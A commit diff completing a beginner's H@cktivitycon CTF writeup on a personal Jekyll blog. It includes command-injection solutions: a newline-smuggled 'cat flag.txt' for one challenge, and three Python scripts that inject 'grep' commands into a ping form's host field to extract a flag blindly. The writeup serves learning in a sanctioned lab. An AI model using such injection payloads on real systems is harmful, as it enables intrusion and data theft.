

Before and after one commit to Glitch-Gecko/glitch-gecko.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide, cut to the strip 332-1185 px from the top of the page. Shown: the top 838 px of the strip. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1133 px from its top, so only the background shows below that; part of the change alters nothing that is shown.

Commit message:
Finished Hacktivity writeup

````diff
--- a/_posts/2021-10-1-Hacktivitycon-CTF.md
+++ b/_posts/2021-10-1-Hacktivitycon-CTF.md
@@ -4,14 +4,14 @@ title: "H@cktivitycon CTF Writeups"
 author: Ainchentmew2
 ---
 
-Note: I'm still cleaning up the site so this is unfinished as of now.
-
 # H@cktivitycon CTF
 
 Before now, I've had no experience in anything involving Cybersecurity, but when I heard about the CTF run by John Hammond, congon4tor, M_alpha, fumenoid, NightWolf, Blacknote, and CalebStewart, I figured it'd be a great learning experience for me.
 
 
-I spent several hours researching and learning, in hopes of building up my abilities before the CTF. When it came time to start, I felt like I'd be a little useless and not have much to bring to the team, but it turned out that I actually solved seven challenges, netting  me just over 1100 points.
+I spent several hours researching and learning, in hopes of building up my abilities before the CTF.
+
+When it came time to start, I felt like I'd be a little useless and not have much to bring to the team, but it turned out that I actually solved seven challenges (and enterd the flag for one a teammate solved), netting  me just over 1100 points.
 
 
 In this post, I'm going to be detailing my thought process and how I found each flag, based on the order I completed them in.
@@ -24,7 +24,7 @@ Checking the file type, I found that "tsunami" was a .wav file, so I renamed it
 
 ![Tsunami 1](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Tsunami2.png)
 
-I figured maybe there was something hidden in the visualization in the wave itself, so I downloaded it and opened it in sonic visualiser.
+I figured maybe there was something hidden in the visualization in the wave itself, so I tried opening it in sonic visualiser.
 
 ![Tsunami 2](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Tsunami3.png)
 
@@ -64,3 +64,136 @@ I wondered what I could do with the image, and realized it looked a little like
 
 ## Butter Overflow
 #### Description: "Can you overflow this right?"
+
+This one was a little fun to me.
+Connecting to the port, you're asked a simple question: "How many bytes does it take to overflow this buffer?" Upon any answer, you're immediately disconnected from the port.
+
+![Butter Overflow](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Butter_Overflow3.png)
+
+I assumed I needed to overflow the buffer, so I did what any sane person would do, and held the letter 'a' for a minute or so.
+
+![Butter Overflow 2](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Butter_Overflow2.png)
+
+Success!
+
+## Integrity
+#### Description: "My school was trying to teach people about the CIA triad so they made all these dumb example applications... as if they know anything about information security. Supposedly they learned their lesson and tried to make this one more secure. Can you prove it is still vulnerable?"
+
+This challenge involved a web application to verify the SHA256 hash of any file.
+
+![Integrity](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Integrity2.png)
+
+This one is basically a sequel to the challenge "Confidentiality," which was solved by one of my teammates.
+
+Confidentiality involved just using ```;``` or ```&&``` to add another command to read the flag, but in Integrity, almost all characters were filtered.
+
+My research brought me towards using burpsuite to injecting my own code into their application.
+I wasn't too confident in this solution, but I tried entering a new line with the command ```cat flag.txt```
+
+![Integrity 2](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Integrity3.png)
+
+Surprisingly enough, this worked perfectly!
+
+![Integrity 3](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Integrity4.png)
+
+## Availability
+#### Description: "My school was trying to teach people about the CIA triad so they made all these dumb example applications... as if they know anything about information security. They said they fixed the bug from the last app, but they also said they knew they went overboard with the filtered characters, so they loosened things up a bit. Can you hack it?"
+
+This one was honestly the most enjoyable out of all the challenges. It was basically the same thing as the Integrity, with a web application that pings a port and gives outputs the success of the ping.
+
+![Availability](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Availability2.png)
+
+I tried the same thing I did with Intregrity, but instead of displaying the flag, it just gave me a successful ping.
+
+Experimenting a little bit, I changed the ip to something I knew would be unsuccessful and tried ```cat flag.txt```
+
+This time, I received a failed ping.
+
+
+Knowing this, I figured it would be possible to use the requests module on python in order to use the ```grep``` command to search for letters in the flag.
+
+Here was my quick script to build up a character dictionary of possible letters:
+```python
+import requests
+character_dictionary = ''
+characters = 'abcdefghijklmnopqrstuvwxyz1234567890'
+
+for char in characters:
+    payload = """
+    grep {letter} "flag.txt"
+    """.format(letter=char)
+    print(character_dictionary, char)
+    r = requests.post('http://challenge.ctf.games:31862/', data={'host':payload})
+    if 'Success' in r.text:
+        character_dictionary += char
+print(character_dictionary)
+```
+
+And here was the output:
+
+![Availability 2](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Availability3.png)
+
+Knowing the characters in the flag can now allow me to figure out exactly what the flag is, using a very similar script:
+
+```python
+import requests
+flag = ''
+characters = 'abcdfgl124567890'
+
+for i in range(32):
+    for char in characters:
+        payload = """
+        grep {letter} "flag.txt"
+        """.format(letter=flag+char)
+        print(flag, char)
+        r = requests.post('http://challenge.ctf.games:31862/', data={'host':payload})
+        if 'Success' in r.text:
+            flag += char
+            break
+print(flag)
+```
+
+And here was the output:
+
+![Availability 3](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Availability4.png)
+
+This means that the flag ends with the sequence 'bf60'
+
+Knowing this, I can use the exact same script, but looking for letters starting from the end and working backwords.
+
+Here was the script I used:
+
+```python
+import requests
+flag = 'bf60'
+characters = 'abcdfgl124567890'
+
+for i in range(28):
+    for char in characters:
+        payload = """
+        grep {letter} "flag.txt"
+        """.format(letter=char+flag)
+        print(flag, char)
+        r = requests.post('http://challenge.ctf.games:31862/', data={'host':payload})
+        if 'Success' in r.text:
+            flag=char+flag
+            break
+print(flag)
+```
+
+And here was the output:
+
+![Availability 3](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Availability6.png)
+
+And that was the correct flag!
+
+
+# Final thoughts
+
+Overall I had a blast and really enjoyed the CTF, and I'm glad I decided to try it out. Big thanks to Ryan (An00bRektn) for helping me out and introducing me to the CTF, and for giving me the idea to make my own writeups! Check out his write ups [here](https://an00brektn.github.io/).
+
+I'm definitely looking forward to the next one!
+
+![Congrats!](https://raw.githubusercontent.com/Ainchentmew2/ainchentmew2.github.io/main/images/Hacktivity.png)
+
+[Back to Home Page](https://ainchentmew2.github.io)
````
Also changed, not shown: images/Butter_Overflow3.png (added), images/Hacktivity.png (added), 6 other files.
